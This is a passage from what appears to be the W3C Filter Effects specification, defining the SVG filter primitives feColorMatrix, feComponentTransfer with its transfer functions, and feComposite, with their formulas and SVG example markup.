    R '       G '       B '       A '       1       =         0.213 + 0.787s       0.715 − 0.715s       0.072 − 0.072s      0     0        0.213 − 0.213s       0.715 + 0.285s       0.072 − 0.072s      0     0        0.213 − 0.213s       0.715 − 0.715s       0.072 + 0.928s      0     0       0     0     0     1     0       0     0     0     0     1       ⋅       R       G       B       A       1          left [ stack {R' # G' # B' # A' # 1} right ] = left [ matrix { 0.213 + 0.787s # 0.715 - 0.715s # 0.072 - 0.072s # 0 # 0 ## 0.213 - 0.213s # 0.715 + 0.285s # 0.072 - 0.072s # 0 # 0 ## 0.213 - 0.213s # 0.715 - 0.715s # 0.072 + 0.928s # 0 # 0 ## 0 # 0 # 0 # 1 # 0 ## 0 # 0 # 0 # 0 # 1 } right ] cdot left[ stack { R # G # B # A # 1 } right]

    > **Note:** A value of `0` produces a fully desaturated (grayscale) filter result, while a value of `1` passes the filter input image through unchanged. Values outside the 0..1 range under- or oversaturates the filter input image respectively.

    > **Note:** The precision of the luminance coefficients increased in comparison to previous specification texts [Cmam].
  - For `type="hueRotate"`, values is a single one real number value (degrees). A hueRotate operation is equivalent to the following matrix operation:

    R '       G '       B '       A '       1       =         a 00       a 01       a 02      0     0        a 10       a 11       a 12      0     0        a 20       a 21       a 22      0     0       0     0     0     1     0       0     0     0     0     1       ⋅       R       G       B       A       1          left [ stack {R' # G' # B' # A' # 1} right ] = left [ matrix { a_00 # a_01 # a_02 # 0 # 0 ## a_10 # a_11 # a_12 # 0 # 0 ## a_20 # a_21 # a_22 # 0 # 0 ## 0 # 0 # 0 # 1 # 0 ## 0 # 0 # 0 # 0 # 1 } right ] cdot left[ stack { R # G # B # A # 1 } right]

    where the terms a00, a01, etc. are calculated as follows:

    a 00       a 01       a 02         a 10       a 11       a 12         a 20       a 21       a 22        =         + 0.213       + 0.715       + 0.072         + 0.213       + 0.715       + 0.072         + 0.213       + 0.715       + 0.072        + cos      (  hueRotate value  )  ⋅        + 0.787       − 0.715       − 0.072         − 0.213       + 0.285       − 0.072         − 0.213       − 0.715       + 0.928         + sin    (  hueRotate value  )  ⋅        − 0.213       − 0.715       + 0.928         + 0.143       + 0.140       − 0.283         − 0.787       + 0.715       + 0.072          left[ matrix { a_00 # a_01 # a_02 ## a_10 # a_11 # a_12 ## a_20 # a_21 # a_22 } right] = left[ matrix { +0.213 # +0.715 # +0.072 ## +0.213 # +0.715 # +0.072 ## +0.213 # +0.715 # +0.072 } right] + cos(hueRotate value)cdot left[ matrix { +0.787 # -0.715 # -0.072 ## -0.213 # +0.285 # -0.072 ## -0.213 # -0.715 # +0.928 } right] + sin(hueRotate value) cdot left[ matrix { -0.213 # -0.715 # +0.928 ## +0.143 # +0.140 # -0.283 ## -0.787 # +0.715 # +0.072 } right]   Thus, the upper left term of the hue matrix turns out to be:      a 00  =  0.2127 + cos      (  hueRotate value  )  ⋅ 0.7873  − sin    (  hueRotate value  )  ⋅ 0.2127   a_00 = 0.2127 + cos(hueRotate value) cdot 0.7873 - sin(hueRotate value) cdot 0.2127
  - For `type="luminanceToAlpha"`, values is not applicable. A luminanceToAlpha operation is equivalent to the following matrix operation:

    R '       G '       B '       A '       1       =        0     0     0     0     0       0     0     0     0     0       0     0     0     0     0       0.2126     0.7152     0.0722     0     0       0     0     0     0     1       ⋅       R       G       B       A       1          left [ stack {R' # G' # B' # A' # 1} right ] = left [ matrix { 0 # 0 # 0 # 0 # 0 ## 0 # 0 # 0 # 0 # 0 ## 0 # 0 # 0 # 0 # 0 ## 0.2126 # 0.7152 # 0.0722 # 0 # 0 ## 0 # 0 # 0 # 0 # 1 } right ] cdot left[ stack { R # G # B # A # 1 } right]

  The initial value for values

  **if `type="matrix"`**

  : defaults to the identity matrix

  **if `type="saturate"`**

  : defaults to the value `1`

  **if `type="hueRotate"`**

  : defaults to the value `0` which results in the identity matrix.

  If the number of entries in the values list does not match the required number of entries by the type, the filter primitive acts as a pass through filter.

  Animatable: yes.

> **Example:** ```
> <svg width="8cm" height="5cm" viewBox="0 0 800 500"
>      xmlns="http://www.w3.org/2000/svg">
>   <title>Example feColorMatrix - Examples of feColorMatrix operations</title>
>   <desc>Five text strings showing the effects of feColorMatrix:
>         an unfiltered text string acting as a reference,
>         use of the feColorMatrix matrix option to convert to grayscale,
>         use of the feColorMatrix saturate option,
>         use of the feColorMatrix hueRotate option,
>         and use of the feColorMatrix luminanceToAlpha option.</desc>
>   <defs>
>     <linearGradient id="MyGradient" gradientUnits="userSpaceOnUse"
>             x1="100" y1="0" x2="500" y2="0">
>       <stop offset="0" stop-color="#ff00ff" />
>       <stop offset=".33" stop-color="#88ff88" />
>       <stop offset=".67" stop-color="#2020ff" />
>       <stop offset="1" stop-color="#d00000" />
>     </linearGradient>
>     <filter id="Matrix" filterUnits="objectBoundingBox"
>             x="0%" y="0%" width="100%" height="100%">
>       <feColorMatrix type="matrix" in="SourceGraphic"
>            values=".33 .33 .33 0 0
>                    .33 .33 .33 0 0
>                    .33 .33 .33 0 0
>                    .33 .33 .33 0 0"/>
>     </filter>
>     <filter id="Saturate40" filterUnits="objectBoundingBox"
>             x="0%" y="0%" width="100%" height="100%">
>       <feColorMatrix type="saturate" in="SourceGraphic" values="0.4"/>
>     </filter>
>     <filter id="HueRotate90" filterUnits="objectBoundingBox"
>             x="0%" y="0%" width="100%" height="100%">
>       <feColorMatrix type="hueRotate" in="SourceGraphic" values="90"/>
>     </filter>
>     <filter id="LuminanceToAlpha" filterUnits="objectBoundingBox"
>             x="0%" y="0%" width="100%" height="100%">
>       <feColorMatrix type="luminanceToAlpha" in="SourceGraphic" result="a"/>
>       <feComposite in="SourceGraphic" in2="a" operator="in" />
>     </filter>
>   </defs>
>   <rect fill="none" stroke="blue"
>         x="1" y="1" width="798" height="498"/>
>   <g font-family="Verdana" font-size="75"
>             font-weight="bold" fill="url(#MyGradient)" >
>     <rect x="100" y="0" width="500" height="20" />
>     <text x="100" y="90">Unfiltered</text>
>     <text x="100" y="190" filter="url(#Matrix)" >Matrix</text>
>     <text x="100" y="290" filter="url(#Saturate40)" >Saturate</text>
>     <text x="100" y="390" filter="url(#HueRotate90)" >HueRotate</text>
>     <text x="100" y="490" filter="url(#LuminanceToAlpha)" >Luminance</text>
>   </g>
> </svg>
> ```
>
> 
>
> Example of feColorMatrix
>
> [View this example as SVG](../filter-effects-1/examples/feColorMatrix.svg)

#### 9.7. Filter primitive feComponentTransfer {#filter-effects-1:feComponentTransferElement}

| Name: | **`feComponentTransfer`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, feFuncR, feFuncG, feFuncB, feFuncA, script elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in |
| DOM Interfaces: | [SVGFEComponentTransferElement](#filter-effects-1:InterfaceSVGFEComponentTransferElement) |

This filter primitive performs component-wise remapping of data as follows:

```
R' = feFuncR( R )
G' = feFuncG( G )
B' = feFuncB( B )
A' = feFuncA( A )
```

for every pixel. It allows operations like brightness adjustment, contrast adjustment, color balance or thresholding.

The calculations are performed on non-premultiplied color values.

The child elements of a feComponentTransfer element specify the transfer functions for the four channels:

- feFuncR - transfer function for the red component of the input graphic
- feFuncG - transfer function for the green component of the input graphic
- feFuncB - transfer function for the blue component of the input graphic
- feFuncA - transfer function for the alpha component of the input graphic

The set of feFuncR, feFuncG, feFuncB, feFuncA elements are also called **transfer function element**s.

The following rules apply to the processing of the feComponentTransfer element:

- If more than one transfer function element of the same kind is specified, the last occurrence is to be used.
- If any of the transfer function elements are unspecified, the feComponentTransfer must be processed as if those transfer function elements were specified with their type attributes set to `identity`.

##### 9.7.1. Transfer function feFuncR {#filter-effects-1:feFuncRElement}

| Name: | **`feFuncR`** |
| --- | --- |
| Categories: | transfer function element |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) transfer function element attributes — type, tableValues, slope, intercept, amplitude, exponent, offset |
| DOM Interfaces: | [SVGFEFuncRElement](#filter-effects-1:InterfaceSVGFEFuncRElement) |

The attributes below are the **transfer function element attributes**, which apply to the transfer function elements.

*Attribute definitions:*

****`type`** = "identity | table | discrete | linear | gamma"**

: Indicates the type of component transfer function. The type of function determines the applicability of the other attributes.

  In the following, C is the initial component (e.g., feFuncR), C' is the remapped component; both in the closed interval [0,1].

  - For **`identity`**:

    ```
    C' = C
    ```
  - For **`table`**, the function is defined by linear interpolation between values given in the attribute tableValues. The table has *n+1* values (i.e., v0 to vn) specifying the start and end values for *n* evenly sized interpolation regions. Interpolations use the following formula:

    For a value `C < 1` find `k` such that:

    `k/n <= C < (k+1)/n`

    The result `C'` is given by:

    `C' = vk + (C - k/n)*n * (vk+1 - vk)`

    If `C = 1` then:

    `C' = vn.`
  - For **`discrete`**, the function is defined by the step function given in the attribute tableValues, which provides a list of *n* values (i.e., v0 to vn-1) in order to identify a step function consisting of *n* steps. The step function is defined by the following formula:

    For a value `C < 1` find `k` such that:

    `k/n <= C < (k+1)/n`

    The result `C'` is given by:

    `C' = vk`

    If `C = 1` then:

    `C' = vn-1.`
  - For **`linear`**, the function is defined by the following linear equation:

    `C' = slope * C + intercept`
  - For **`gamma`**, the function is defined by the following exponential function:

    `C' = amplitude * pow(C, exponent) + offset`

  The initial value for type is identity.

  Animatable: yes.

****`tableValues`** = "*(list of `<number>`s)*"**

: When `type="table"`, the list of `<number>` s *v0,v1,...vn*, separated by white space and/or a comma, which define the lookup table. An empty list results in an identity transfer function.

  If the attribute is not specified, then the effect is as if an empty list were provided.

  Animatable: yes.

****`slope`** = "*`<number>`*"**

: When `type="linear"`, the slope of the linear function.

  The initial value for slope is `1`.

  Animatable: yes.

****`intercept`** = "*`<number>`*"**

: When `type="linear"`, the intercept of the linear function.

  The initial value for intercept is `0`.

  Animatable: yes.

****`amplitude`** = "*`<number>`*"**

: When `type="gamma"`, the amplitude of the gamma function.

  The initial value for amplitude is `1`.

  Animatable: yes.

****`exponent`** = "*`<number>`*"**

: When `type="gamma"`, the exponent of the gamma function.

  The initial value for exponent is `1`.

  Animatable: yes.

****`offset`** = "*`<number>`*"**

: When `type="gamma"`, the offset of the gamma function.

  The initial value for offset is `0`.

  Animatable: yes.

> **Example:** ```
> <svg width="8cm" height="4cm" viewBox="0 0 800 400"
>      xmlns="http://www.w3.org/2000/svg">
>   <title>Example feComponentTransfer - Examples of feComponentTransfer operations</title>
>   <desc>Four text strings showing the effects of feComponentTransfer:
>         an identity function acting as a reference,
>         use of the feComponentTransfer table option,
>         use of the feComponentTransfer linear option,
>         and use of the feComponentTransfer gamma option.</desc>
>   <defs>
>     <linearGradient id="MyGradient" gradientUnits="userSpaceOnUse"
>             x1="100" y1="0" x2="600" y2="0">
>       <stop offset="0" stop-color="#ff0000" />
>       <stop offset=".33" stop-color="#00ff00" />
>       <stop offset=".67" stop-color="#0000ff" />
>       <stop offset="1" stop-color="#000000" />
>     </linearGradient>
>     <filter id="Identity" filterUnits="objectBoundingBox"
>             x="0%" y="0%" width="100%" height="100%">
>       <feComponentTransfer>
>         <feFuncR type="identity"/>
>         <feFuncG type="identity"/>
>         <feFuncB type="identity"/>
>         <feFuncA type="identity"/>
>       </feComponentTransfer>
>     </filter>
>     <filter id="Table" filterUnits="objectBoundingBox"
>             x="0%" y="0%" width="100%" height="100%">
>       <feComponentTransfer>
>         <feFuncR type="table" tableValues="0 0 1 1"/>
>         <feFuncG type="table" tableValues="1 1 0 0"/>
>         <feFuncB type="table" tableValues="0 1 1 0"/>
>       </feComponentTransfer>
>     </filter>
>     <filter id="Linear" filterUnits="objectBoundingBox"
>             x="0%" y="0%" width="100%" height="100%">
>       <feComponentTransfer>
>         <feFuncR type="linear" slope=".5" intercept=".25"/>
>         <feFuncG type="linear" slope=".5" intercept="0"/>
>         <feFuncB type="linear" slope=".5" intercept=".5"/>
>       </feComponentTransfer>
>     </filter>
>     <filter id="Gamma" filterUnits="objectBoundingBox"
>             x="0%" y="0%" width="100%" height="100%">
>       <feComponentTransfer>
>         <feFuncR type="gamma" amplitude="2" exponent="5" offset="0"/>
>         <feFuncG type="gamma" amplitude="2" exponent="3" offset="0"/>
>         <feFuncB type="gamma" amplitude="2" exponent="1" offset="0"/>
>       </feComponentTransfer>
>     </filter>
>   </defs>
>   <rect fill="none" stroke="blue"
>         x="1" y="1" width="798" height="398"/>
>   <g font-family="Verdana" font-size="75"
>             font-weight="bold" fill="url(#MyGradient)" >
>     <rect x="100" y="0" width="600" height="20" />
>     <text x="100" y="90">Identity</text>
>     <text x="100" y="190" filter="url(#Table)" >TableLookup</text>
>     <text x="100" y="290" filter="url(#Linear)" >LinearFunc</text>
>     <text x="100" y="390" filter="url(#Gamma)" >GammaFunc</text>
>   </g>
> </svg>
> ```
>
> 
>
> Example for feComponentTransfer
>
> [View this example as SVG](../filter-effects-1/examples/feComponentTransfer.svg)

##### 9.7.2. Transfer function feFuncG {#filter-effects-1:feFuncGElement}

| Name: | **`feFuncG`** |
| --- | --- |
| Categories: | transfer function element |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) transfer function element attributes — type, tableValues, slope, intercept, amplitude, exponent, offset |
| DOM Interfaces: | [SVGFEFuncGElement](#filter-effects-1:InterfaceSVGFEFuncGElement) |

See feFuncR for the definitions of the attribute values.

##### 9.7.3. Transfer function feFuncB {#filter-effects-1:feFuncBElement}

| Name: | **`feFuncB`** |
| --- | --- |
| Categories: | transfer function element |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) transfer function element attributes — type, tableValues, slope, intercept, amplitude, exponent, offset |
| DOM Interfaces: | [SVGFEFuncBElement](#filter-effects-1:InterfaceSVGFEFuncBElement) |

See feFuncR for the definitions of the attribute values.

##### 9.7.4. Transfer function feFuncA {#filter-effects-1:feFuncAElement}

| Name: | **`feFuncA`** |
| --- | --- |
| Categories: | transfer function element |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) transfer function element attributes — type, tableValues, slope, intercept, amplitude, exponent, offset |
| DOM Interfaces: | [SVGFEFuncAElement](#filter-effects-1:InterfaceSVGFEFuncAElement) |

See feFuncR for the definitions of the attribute values.

#### 9.8. Filter primitive feComposite {#filter-effects-1:feCompositeElement}

| Name: | **`feComposite`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in in2 operator k1 k2 k3 k4 |
| DOM Interfaces: | [SVGFECompositeElement](#filter-effects-1:InterfaceSVGFECompositeElement) |

This filter performs the combination of the two input images pixel-wise in image space using one of the Porter-Duff [PORTERDUFF] compositing operations: over, in, `atop`, `out`, `xor`, lighter [COMPOSITING-1]. Additionally, a component-wise *arithmetic* operation (with the result clamped between [0..1]) can be applied.

The *arithmetic* operation is useful for combining the output from the feDiffuseLighting and feSpecularLighting filters with texture data. It is also useful for implementing *dissolve*. If the *arithmetic* operation is chosen, each result pixel is computed using the following formula:

```
result = k1*i1*i2 + k2*i1 + k3*i2 + k4
```

where:

- `i1` and `i2` indicate the corresponding pixel channel values of the input image, which map to in and in2 respectively
- `k1, k2, k3` and `k4` indicate the values of the attributes with the same name

For this filter primitive, the extent of the resulting image might grow as described in the section that describes the filter primitive subregion.

*Attribute definitions:*

****`operator`** = "**`over`** | **`in`** | **`out`** | **`atop`** | **`xor`** | **`lighter`** | **`arithmetic`**"**

: The compositing operation that is to be performed. All of the operator types except `arithmetic` match the corresponding operation as described in [COMPOSITING-1] with in representing the source and in2 representing the destination. The `arithmetic` operator is described above.

  The initial value for operator is over.

  Animatable: yes.

****`k1`** = "`<number>`"**

: Only applicable if `operator="arithmetic"`.

  The initial value for k1 is `0`.

  Animatable: yes.

****`k2`** = "*`<number>`*"**

: Only applicable if `operator="arithmetic"`.

  The initial value for k2 is `0`.

  Animatable: yes.

****`k3`** = "`<number>`"**

: Only applicable if `operator="arithmetic"`.

  The initial value for k3 is `0`.

  Animatable: yes.

****`k4`** = "`<number>`"**

: Only applicable if `operator="arithmetic"`.

  The initial value for k4 is `0`.

  Animatable: yes.

****`in2`** = "*(see in attribute)*"**

: The second input image to the compositing operation.

  Animatable: yes.

> **Note:** Compositing and Blending [COMPOSITING-1] defines more compositing keywords. The functionality of the additional keywords can be archived by switching the input filter primitives in and in2.

> **Example:** ```
> <svg width="330" height="195" viewBox="0 0 1100 650"
>      xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
>   <title>Example feComposite - Examples of feComposite operations</title>
>   <desc>Four rows of six pairs of overlapping triangles depicting
>         the six different feComposite operators under different
>         opacity values and different clearing of the background.</desc>
>   <defs>
>     <desc>Define two sets of six filters for each of the six compositing operators.
>           The first set wipes out the background image by flooding with opaque white.
>           The second set does not wipe out the background, with the result
>           that the background sometimes shines through and is other cases
>           is blended into itself (i.e., "double-counting").</desc>
>     <filter id="overFlood" filterUnits="objectBoundingBox" x="-5%" y="-5%" width="110%" height="110%">
>       <feFlood flood-color="#ffffff" flood-opacity="1" result="flood"/>
>       <feComposite in="SourceGraphic" in2="BackgroundImage" operator="over" result="comp"/>
>       <feMerge> <feMergeNode in="flood"/> <feMergeNode in="comp"/> </feMerge>
>     </filter>
>     <filter id="inFlood" filterUnits="objectBoundingBox" x="-5%" y="-5%" width="110%" height="110%">
>       <feFlood flood-color="#ffffff" flood-opacity="1" result="flood"/>
>       <feComposite in="SourceGraphic" in2="BackgroundImage" operator="in" result="comp"/>
>       <feMerge> <feMergeNode in="flood"/> <feMergeNode in="comp"/> </feMerge>
>     </filter>
>     <filter id="outFlood" filterUnits="objectBoundingBox" x="-5%" y="-5%" width="110%" height="110%">
>       <feFlood flood-color="#ffffff" flood-opacity="1" result="flood"/>
>       <feComposite in="SourceGraphic" in2="BackgroundImage" operator="out" result="comp"/>
>       <feMerge> <feMergeNode in="flood"/> <feMergeNode in="comp"/> </feMerge>
>     </filter>
>     <filter id="atopFlood" filterUnits="objectBoundingBox" x="-5%" y="-5%" width="110%" height="110%">
>       <feFlood flood-color="#ffffff" flood-opacity="1" result="flood"/>
>       <feComposite in="SourceGraphic" in2="BackgroundImage" operator="atop" result="comp"/>
>       <feMerge> <feMergeNode in="flood"/> <feMergeNode in="comp"/> </feMerge>
>     </filter>
>     <filter id="xorFlood" filterUnits="objectBoundingBox" x="-5%" y="-5%" width="110%" height="110%">
>       <feFlood flood-color="#ffffff" flood-opacity="1" result="flood"/>
>       <feComposite in="SourceGraphic" in2="BackgroundImage" operator="xor" result="comp"/>
>       <feMerge> <feMergeNode in="flood"/> <feMergeNode in="comp"/> </feMerge>
>     </filter>
>     <filter id="arithmeticFlood" filterUnits="objectBoundingBox"
>             x="-5%" y="-5%" width="110%" height="110%">
>       <feFlood flood-color="#ffffff" flood-opacity="1" result="flood"/>
>       <feComposite in="SourceGraphic" in2="BackgroundImage" result="comp"
>                    operator="arithmetic" k1=".5" k2=".5" k3=".5" k4=".5"/>
>       <feMerge> <feMergeNode in="flood"/> <feMergeNode in="comp"/> </feMerge>
>     </filter>
>     <filter id="overNoFlood" filterUnits="objectBoundingBox" x="-5%" y="-5%" width="110%" height="110%">
>       <feComposite in="SourceGraphic" in2="BackgroundImage" operator="over" result="comp"/>
>     </filter>
>     <filter id="inNoFlood" filterUnits="objectBoundingBox" x="-5%" y="-5%" width="110%" height="110%">
>       <feComposite in="SourceGraphic" in2="BackgroundImage" operator="in" result="comp"/>
>     </filter>
>     <filter id="outNoFlood" filterUnits="objectBoundingBox" x="-5%" y="-5%" width="110%" height="110%">
>       <feComposite in="SourceGraphic" in2="BackgroundImage" operator="out" result="comp"/>
>     </filter>
>     <filter id="atopNoFlood" filterUnits="objectBoundingBox" x="-5%" y="-5%" width="110%" height="110%">
>       <feComposite in="SourceGraphic" in2="BackgroundImage" operator="atop" result="comp"/>
>     </filter>
>     <filter id="xorNoFlood" filterUnits="objectBoundingBox" x="-5%" y="-5%" width="110%" height="110%">
>       <feComposite in="SourceGraphic" in2="BackgroundImage" operator="xor" result="comp"/>
>     </filter>
>     <filter id="arithmeticNoFlood" filterUnits="objectBoundingBox"
>             x="-5%" y="-5%" width="110%" height="110%">
>       <feComposite in="SourceGraphic" in2="BackgroundImage" result="comp"
>                    operator="arithmetic" k1=".5" k2=".5" k3=".5" k4=".5"/>
>     </filter>
>     <path id="Blue100" d="M 0 0 L 100 0 L 100 100 z" fill="#00ffff" />
>     <path id="Red100" d="M 0 0 L 0 100 L 100 0 z" fill="#ff00ff" />
>     <path id="Blue50" d="M 0 125 L 100 125 L 100 225 z" fill="#00ffff" fill-opacity=".5" />
>     <path id="Red50" d="M 0 125 L 0 225 L 100 125 z" fill="#ff00ff" fill-opacity=".5" />
>     <g id="TwoBlueTriangles">
>       <use xlink:href="#Blue100"/>
>       <use xlink:href="#Blue50"/>
>     </g>
>     <g id="BlueTriangles">
>       <use transform="translate(275,25)" xlink:href="#TwoBlueTriangles"/>
>       <use transform="translate(400,25)" xlink:href="#TwoBlueTriangles"/>
>       <use transform="translate(525,25)" xlink:href="#TwoBlueTriangles"/>
>       <use transform="translate(650,25)" xlink:href="#TwoBlueTriangles"/>
>       <use transform="translate(775,25)" xlink:href="#TwoBlueTriangles"/>
>       <use transform="translate(900,25)" xlink:href="#TwoBlueTriangles"/>
>     </g>
>   </defs>
>
>   <rect fill="none" stroke="blue" x="1" y="1" width="1098" height="648"/>
>   <g font-family="Verdana" font-size="40" shape-rendering="crispEdges">
>     <desc>Render the examples using the filters that draw on top of
>           an opaque white surface, thus obliterating the background.</desc>
>     <g isolation="isolate">
>       <text x="15" y="75">opacity 1.0</text>
>       <text x="15" y="115" font-size="27">(with feFlood)</text>
>       <text x="15" y="200">opacity 0.5</text>
>       <text x="15" y="240" font-size="27">(with feFlood)</text>
>       <use xlink:href="#BlueTriangles"/>
>       <g transform="translate(275,25)">
>         <use xlink:href="#Red100" filter="url(#overFlood)" />
>         <use xlink:href="#Red50" filter="url(#overFlood)" />
>         <text x="5" y="275">over</text>
>       </g>
>       <g transform="translate(400,25)">
>         <use xlink:href="#Red100" filter="url(#inFlood)" />
>         <use xlink:href="#Red50" filter="url(#inFlood)" />
>         <text x="35" y="275">in</text>
>       </g>
>       <g transform="translate(525,25)">
>         <use xlink:href="#Red100" filter="url(#outFlood)" />
>         <use xlink:href="#Red50" filter="url(#outFlood)" />
>         <text x="15" y="275">out</text>
>       </g>
>       <g transform="translate(650,25)">
>         <use xlink:href="#Red100" filter="url(#atopFlood)" />
>         <use xlink:href="#Red50" filter="url(#atopFlood)" />
>         <text x="10" y="275">atop</text>
>       </g>
>       <g transform="translate(775,25)">
>         <use xlink:href="#Red100" filter="url(#xorFlood)" />
>         <use xlink:href="#Red50" filter="url(#xorFlood)" />
>         <text x="15" y="275">xor</text>
>       </g>
>       <g transform="translate(900,25)">
>         <use xlink:href="#Red100" filter="url(#arithmeticFlood)" />
>         <use xlink:href="#Red50" filter="url(#arithmeticFlood)" />
>         <text x="-25" y="275">arithmetic</text>
>       </g>
>     </g>
>     <g transform="translate(0,325)" isolation="isolate">
>     <desc>Render the examples using the filters that do not obliterate
>           the background, thus sometimes causing the background to continue
>           to appear in some cases, and in other cases the background
>           image blends into itself ("double-counting").</desc>
>       <text x="15" y="75">opacity 1.0</text>
>       <text x="15" y="115" font-size="27">(without feFlood)</text>
>       <text x="15" y="200">opacity 0.5</text>
>       <text x="15" y="240" font-size="27">(without feFlood)</text>
>       <use xlink:href="#BlueTriangles"/>
>       <g transform="translate(275,25)">
>         <use xlink:href="#Red100" filter="url(#overNoFlood)" />
>         <use xlink:href="#Red50" filter="url(#overNoFlood)" />
>         <text x="5" y="275">over</text>
>       </g>
>       <g transform="translate(400,25)">
>         <use xlink:href="#Red100" filter="url(#inNoFlood)" />
>         <use xlink:href="#Red50" filter="url(#inNoFlood)" />
>         <text x="35" y="275">in</text>
>       </g>
>       <g transform="translate(525,25)">
>         <use xlink:href="#Red100" filter="url(#outNoFlood)" />
>         <use xlink:href="#Red50" filter="url(#outNoFlood)" />
>         <text x="15" y="275">out</text>
>       </g>
>       <g transform="translate(650,25)">
>         <use xlink:href="#Red100" filter="url(#atopNoFlood)" />
>         <use xlink:href="#Red50" filter="url(#atopNoFlood)" />
>         <text x="10" y="275">atop</text>
>       </g>
>       <g transform="translate(775,25)">
>         <use xlink:href="#Red100" filter="url(#xorNoFlood)" />
>         <use xlink:href="#Red50" filter="url(#xorNoFlood)" />
>         <text x="15" y="275">xor</text>
>       </g>
